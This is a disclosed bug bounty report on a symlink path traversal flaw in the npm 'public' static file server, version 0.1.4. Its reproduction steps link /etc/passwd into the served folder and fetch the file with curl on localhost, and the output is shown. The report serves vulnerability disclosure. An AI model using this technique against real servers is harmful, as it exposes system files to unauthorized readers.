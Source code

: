# [public] Path traversal using symlink

## Report Details
- **Report ID**: 593911
- **URL**: https://hackerone.com/reports/593911
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-06-02T07:16:08.509Z
- **Disclosed**: 2019-08-28T09:00:44.926Z

## Reporter
- **Username**: henrychen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Path traversal vulnerability in public module



# Module

**module name:** public
**version:** 0.1.4
**npm page:** `https://www.npmjs.com/package/public`

## Module Description

Run static file hosting server with specified public dir & port. Support a "direcotry index" like Apache httpd.



## Module Stats

105 downloads in the last week


# Vulnerability

## Vulnerability Description

Path traversal using symlink.



## Steps To Reproduce:

+ Install public 
```
npm install public -g
```
+ Run public server

```
➜  public ./bin/public                 
Public.js server running with "/home/xxx/h1/node_modules/public" on port 3000
```
+ Create a symlink inside your project directory.

```
$ ln -s /etc/passwd test_passwd
```
+ Request the file with curl

```
$ curl http://127.0.0.1:3000/test_passwd
root:x:0:0:root:/root:/bin/bash
```
{F500825}

## Patch

providing a flag to disable/enable following symlinks.



## Supporting Material/References:

+ Ubuntu 16.04
+ node v11.8.0
+ npm 6.5.0


# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

It allows attacker to read content of arbitary file on remote server.

## Attachments
- 1.png
